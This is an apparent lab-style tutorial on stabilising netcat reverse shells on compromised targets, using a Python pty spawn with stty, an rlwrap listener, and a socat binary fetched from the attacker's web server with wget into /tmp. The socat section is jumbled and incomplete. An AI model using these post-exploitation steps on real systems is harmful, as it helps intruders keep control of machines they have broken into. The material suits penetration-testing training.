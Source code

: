 There are many ways to stabilise a netcat shell, we will be looking at 3 of them,  Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it:
## 1. Using Python:

First, we use `which python` to know if python exists and in which directory is it, then we run `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.

Second, we use `export TERM=xterm` which give us access to term commands such as `clear`.

Finally, we use `[CTRL] + [Z]` to move the shell to the background, then we use `stty raw -echo; fg`.
This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.
## 2. using rlwrap:

To use rlwrap, we invoke a slightly different listener by running the following command `rlwrap nc -lvnp <port>`, This technique is particularly useful when dealing with Windows shells, When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.
## 3. using Socat:

Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.  A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`

First, transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. 
## To change the number of rows and columns in a terminal:

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and "columns":

Next, in your reverse/bind shell, use both of these commands, `stty rows <number>`  and `stty cols <number>`